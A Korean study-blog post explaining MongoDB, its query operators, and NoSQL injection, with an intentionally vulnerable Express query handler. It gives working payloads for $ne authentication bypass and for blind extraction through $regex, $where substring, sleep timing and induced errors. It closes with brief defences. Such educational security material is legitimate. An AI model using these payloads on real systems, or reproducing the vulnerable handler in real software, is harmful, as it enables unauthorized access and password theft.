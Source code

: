 ```yaml
---
title: "[2025-07-21] MongoDB"
excerpt: "MongoDB 개념 정리"

categories:
  - Justice
tags:
  - [SQL Injection]

permalink: /Justice/[2025-07-21] MongoDB/

toc: true
toc_sticky: true

date: 2025-07-21
last_modified_at: 2025-07-21
---
```


## 🦥 본문

## MongoDB

NoSQL 데이터베이스 중 하나로 JSON 형식의 문서로 데이터를 저장하고 관리하는 문서 지향 데이터베이스.

### 특징

1. 스키마가 존재하지 않아 가 테이블에 특별한 정의를 하지 않아도 된다.
2. JSON 형식으로 쿼리문을 작성할 수 있다.
3. `_id` 필드가 기본키 역할을 한다.

```sql
> db.user.insertOne({uid: 'admin', upw: 'secretpassword'})
{ acknowledged: true, insertedId: ObjectId("5e71d395b050a2511caa827d")}
> db.user.find({uid: 'admin'})
[{ "_id" : ObjectId("5e71d395b050a2511caa827d"), "uid" : "admin", "upw" : "secretpassword" }]
```

### 연산자

- 비교 연산자

| Name | Description |
| --- | --- |
| `$eq` | 지정된 값과 같은 값을 찾습니다. (equal) |
| `$gt` | 지정된 값보다 큰 값을 찾습니다. (greater than) |
| `$gte` | 지정된 값보다 크거나 같은 값을 찾습니다. (greater than equal) |
| `$in` | 배열 안의 값들과 일치하는 값을 찾습니다. (in) |
| `$lt` | 지정된 값보다 작은 값을 찾습니다. (less than) |
| `$lte` | 지정된 값보다 작거나 같은 값을 찾습니다. (less than equal) |
| `$ne` | 지정된 값과 |
- 논리연산자

| Name | Description |
| --- | --- |
| `$and` | 논리적 AND, 각각의 쿼리를 모두 만족하는 문서가 반환됩니다. |
| `$not` | 쿼리 식의 효과를 반전시킵니다. 쿼리 식과 일치하지 않는 문서를 반환합니다. |
| `$nor` | 논리적 NOR, 각각의 쿼리를 모두 만족하지 않는 문서가 반환됩니다. |
| `$or` | 논리적 OR, 각각의 쿼리 중 하나 이상 만족하는 문서가 반환됩니다. |
- Element 연산자

| Name | Description |
| --- | --- |
| `$exists` | 지정된 필드가 있는 문서를 찾습니다. |
| `$type` | 지정된 필드가 지정된 유형인 문서를 선택합니다. |
- Evaluation 연산자

| Name | Description |
| --- | --- |
| `$expr` | 쿼리 언어 내에서 집계 식을 사용할 수 있습니다. |
| `$jsonSchema` | 주어진 JSON 스키마에 대해 문서를 검증합니다. |
| `$mod` | 필드 값에 대해 mod 연산을 수행하고 지정된 결과를 가진 문서를 선택합니다. |
| `$regex` | 지정한 정규식과 일치하는 문서를 선택합니다. |
| `$text` | 지정한 텍스트를 검색합니다. |
| `$where` | 지정한 자바스크립트 식을 만족하는 문서와 일치합니다. |

### MongoDB Injection

사용자 입력값이 MongoDB 쿼리 내에 그대로 삽입되어, 인증 우회, 데이터 노출, 조작 등 악의적인 동작을 유발하는 공격 기법 

- 취약 코드
    
    ```sql
    const express = require('express');
    const app = express();
    const mongoose = require('mongoose');
    const db = mongoose.connection;
    mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
    app.get('/query', function(req,res) {
        db.collection('user').find({
            'uid': req.query.uid,
            'upw': req.query.upw
        }).toArray(function(err, result) {
            if (err) throw err;
            res.send(result);
      });
    });
    const server = app.listen(3000, function(){
        console.log('app.listen');
    });
    ```
    
    - 이용자가 입력한 uid와 upw에 해당하는 값을 데이터베이스에서 조회하는 예제 코드
    - 공격 코드를 통해 관리자 계정을 조회할 수 있다.
    
    ```sql
    http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
    => [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
    ```
    

### MongoDB Blind Injection

실행 결과가 애플리케이션에 출력되지 않을 때 응답 내용 만으로 정보를 추측하는 공격 방법.

- `$regex`
    
    ```sql
    > db.user.find({upw: {$regex: "^a"}})
    > db.user.find({upw: {$regex: "^b"}})
    > db.user.find({upw: {$regex: "^c"}})
    ...
    > db.user.find({upw: {$regex: "^g"}})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    ```
    
- `$where` : 필드 안에서는 사용 불가
    
    ```sql
    > db.user.find({$where:"return 1==1"})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    > db.user.find({uid:{$where:"return 1==1"}})
    error: {
    	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
    	"code" : 17287
    }
    
    //substring을 사용하여 Blind SQli
    > db.user.find({$where: "this.upw.substring(0,1)=='a'"})
    > db.user.find({$where: "this.upw.substring(0,1)=='b'"})
    > db.user.find({$where: "this.upw.substring(0,1)=='c'"})
    ...
    > db.user.find({$where: "this.upw.substring(0,1)=='g'"})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    
    //Time Based Injection. 서버에서 아래와 같은 코드로 조회할 때,
    db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
    //sleep 함수를 사용하여 공격 가능 
    /?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
    /?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
    /?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
    ...
    /?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
    => 시간 지연 발생.
    
    //Error Based Injection. 아래와 같이 문법 에러를 발생하는 asdf를 삽입하여 앞선 비교식이 참일 경우 에러 발생
    > db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
    error: {
    	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
    	"code" : 16722
    }
    // this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
    > db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
    // this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
    
    ```

### 대응 방법

1. 쿼리 연산자 문자열 차단
2. 타입 강제화 : 사용자의 입력을 문자열로 강제 변환
3. ORM 사용
4. WAF을 통한 필터링   